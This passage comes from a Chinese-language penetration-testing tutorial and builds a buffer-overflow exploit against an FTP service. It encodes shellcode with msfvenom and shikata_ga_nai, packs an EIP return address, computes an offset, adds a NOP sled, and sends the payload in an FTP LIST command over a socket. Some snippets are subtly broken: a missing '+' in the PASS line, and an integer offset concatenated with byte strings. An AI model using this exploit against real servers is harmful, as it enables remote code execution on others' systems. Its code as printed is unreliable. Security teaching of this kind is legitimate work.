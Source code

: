 现在，将数据编码为脚本的可用格式，以删除我们通常知道的坏字符。

```
cat shellcode |msfvenom -b "\x00\xff\x01\x09\x0a\x0d" -e x86/shikata_ga_nai -f c --arch x86 --platform win

```

结果输出为将用于此攻击的实际外壳代码：

![Reversing Metasploit modules](graphics/B04315_08_50.jpg)

现在，我们可以开始使用 Metasploit 模块中的所有功能来设计我们的漏洞。我们将使用目标代码来提取`Offset`和`Ret`数据。`Ret`保存 EIP 的返回地址，`Offset`提供调整外壳代码位置所需的数据。

![Reversing Metasploit modules](graphics/B04315_08_51.jpg)

生成我们利用的返回地址组件非常简单。

```
eip = struct.pack('<I',0x10028283)
```

每个模块的偏移设置可能不同，您可能需要执行其他数学运算以获得正确的值。因此，请始终查看突出显示的实际利用代码，如下所示：

![Reversing Metasploit modules](graphics/B04315_08_52.jpg)

我们看到偏移量的长度从大小中删除了 IP 地址。这将创建一个更新的偏移值。

```
offset = 228 - len(lhost)
```

我们可以看到垃圾数据是由随机文本生成的。因此，我们可以以类似的方式生成 NOP。

```
nop = "\x90" *16
```

接下来，我们需要创建注入漏洞代码的操作顺序。

```
exploit = offset + eip + nop + shell
```

正如您所看到的，使用前面几节中使用的知识非常直接。最后一个组件是设置处理程序以与 FTP 服务交互。

```
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((rhost, rport))
print(client.recv(1024))
client.send("USER " + username + "\r\n")
print(client.recv(1024))
client.send("PASS "password + "\r\n")
print(client.recv(1024))
print("[*] Sending exploit")
client.send("LIST" + exploit + "\r\n")
print(client.recv(1024))
client.close()
```
